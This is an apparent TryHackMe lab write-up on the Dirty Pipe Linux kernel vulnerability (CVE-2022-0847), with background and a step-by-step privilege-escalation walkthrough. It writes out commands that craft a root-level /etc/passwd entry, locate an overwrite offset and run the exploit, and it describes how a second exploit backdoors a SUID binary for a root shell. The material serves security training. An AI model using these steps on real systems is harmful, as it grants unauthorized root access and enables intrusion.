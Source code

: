 ```yaml
---
description: https://tryhackme.com/room/dirtypipe
---
```


# Dirty Pipe: CVE-2022-0847

![](<../../../.gitbook/assets/image (12) (1) (1).png>)

## Background

In March 2022, a researcher named Max Kellerman publicly disclosed a Linux Kernel vulnerability (nicknamed "Dirty Pipe" for its similarities to the notorious "[Dirty Cow](https://dirtycow.ninja/)" exploit affecting older versions of the kernel) that allowed attackers to arbitrarily overwrite files on the operating system. The vulnerability was responsibly disclosed in early 2022 and was [publicly released in a blog post](https://dirtypipe.cm4all.com/) written by Max Kellerman soon after patches were made available.

Arbitrary file overwrites at the kernel level can be very easily leveraged to escalate privileges on the machine (i.e. to obtain administrator, or "root" privileges). This is a devastating vulnerability, made more so by its reach: any devices running a vulnerable version of the Linux kernel (including Android phones) are affected!

## Overview

Due to their low-level nature, any in-depth discussion of kernel vulnerabilities quickly becomes rather complicated. As such we will keep the information in this task relatively light, in the interests of keeping the information easy to digest. If you would like to read an in-depth explanation of the vulnerability (including a full code analysis), you are highly encouraged to check out Max Kellerman's [original blog post](https://dirtypipe.cm4all.com/).

## A Weaponized PoC

### Generating a SHA512Crypt Hash

The first thing we want to do is create a hash so that we can add a user to the /etc/passwd file

```bash
openssl passwd -6 --salt THM "PASSWORD"
$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.
```

We now want to make a template for what we want to add to /etc/passwd

```
'tyler:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash'
```

### Finding an Offset

We have our _file_ (`/etc/passwd`) and our _content_ (the passwd entry) — all we need now is the _offset_. The offset is where in the file the exploit should begin writing at — in other words, which part of the file gets overwritten.

The vulnerability won't allow us to append to the file, so we are going to have to pick an account and overwrite it. Realistically speaking, given the length of our passwd entry (hash inclusive), this will probably actually overwrite _several_ accounts. Looking through the passwd file, the `games` account stands out as being a good candidate for a little-used account which we can afford to nuke for a few minutes. We can use `grep` with the `-b` switch to find the offset of `games` from the start of the file:

```bash
tryhackme@dirty-pipe:~/Exploit/PoC$ grep -b "games" /etc/passwd
189:games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

### Compile the Exploit

![Compile the Exploit](<../../../.gitbook/assets/image (24) (1) (1).png>)

### Run the Exploit

Then the command should look like this:

```bash
tryhackme@dirty-pipe:~/Exploit/PoC$ ./exploit /etc/passwd 189 'tyler:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash
'
```

{% hint style="warning" %}
Note: It is importtant to have that ' on the next line
{% endhint %}

![It Worked!](<../../../.gitbook/assets/image (21) (1).png>)

{% hint style="warning" %}
Note: This flag is partially hidden
{% endhint %}

<details>

<summary>flag.txt</summary>

THM{MmU4Zjg0NDdjNjFi\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}

</details>

## A Second Exploit

### Overview

In the previous task, we exploited the Dirty Pipe vulnerability using Max Kellerman's original proof of concept exploit code; however, other exploits have since been released. The original PoC allowed us to overwrite any file with arbitrary data at an offset of our choosing; however, other implementations have abused the arbitrary file write vulnerability in a variety of different ways.

To demonstrate this concept, a second exploit script has been added to the lab machine — this can be found on the target at `/home/tryhackme/Exploit/Bl4sty/dirtypipez.c`. As the directory structure suggests, this implementation was coded by [@bl4sty](https://twitter.com/bl4sty/), a security researcher who you may remember if you have already completed the "[SudoVulns: Baron Samedit](https://tryhackme.com/room/sudovulnssamedit)" room. The original exploit code can be downloaded from bl4sty's website [here](https://haxx.in/files/dirtypipez.c); however, as mentioned previously, a copy has already been added to the lab machine.

This exploit takes the arbitrary file write one stage further by abusing a rather special quality of the vulnerability. SUID Programs usually lose their [SUID bit](https://muirlandoracle.co.uk/2020/03/05/unix-file-permissions/#SUID) when you attempt to write to them; however, this does not happen with Dirty Pipe — in other words, we can write to any program that has permission to execute with higher privileges, without inadvertently destroying that extra permission (as would usually happen).

Bl4sty's exploit capitalises on this. Instead of overwriting a file like `/etc/passwd`, it overwrites a user-specified SUID binary (such as `/bin/su`), injecting shellcode into it which then gets executed with the permissions of the privileged user (i.e. `root`). Specifically, the exploit hijacks the chosen SUID binary and forces it to create a backdoor binary in  `/tmp` which has the SUID bit and calls `/bin/sh`. It then restores the targeted SUID binary to full working order by re-adding the overwritten section, and uses the newly created backdoor to grant the attacker a shell as the privileged user.

### Exploitation

#### Compile the Exploit

```bash
tryhackme@dirty-pipe:~/Exploit/Bl4sty$ gcc dirtypipez.c -o exploit
tryhackme@dirty-pipe:~/Exploit/Bl4sty$ ls
dirtypipez.c  exploit
```

#### Run the Exploit

![We got Root!](<../../../.gitbook/assets/image (9) (1) (1).png>)

## Lessons Learned

* When looking for a Linux privilege escalation keep an eye out for the kernel version because if it is 5.8, this could be an easy attack vector
* Even if the linux operating system is read-only (like [bottlerocket](https://github.com/bottlerocket-os/bottlerocket)) the kernel could still be vulnerable to this attack
